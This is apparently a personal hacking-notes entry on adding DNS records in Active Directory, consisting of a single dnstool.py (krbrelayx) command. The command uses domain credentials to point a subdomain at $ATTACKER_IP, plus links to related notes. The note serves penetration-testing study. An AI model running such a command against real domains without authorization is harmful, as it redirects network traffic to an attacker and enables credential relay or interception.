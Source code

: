 # active directory  DNS adding DNS records
https://github.com/dirkjanm/krbrelayx
dnstool.py
```bash
python3 dnstool.py -u 'domain.local\username' -p password123 -a add -r subdomain.domain.local -d $ATTACKER_IP $IP
```

` zet/20221003151128/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node
- [20221003151129](/zet/20221003151129/README.md) active directory  DNS
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:

    #hacking #windows #windows 
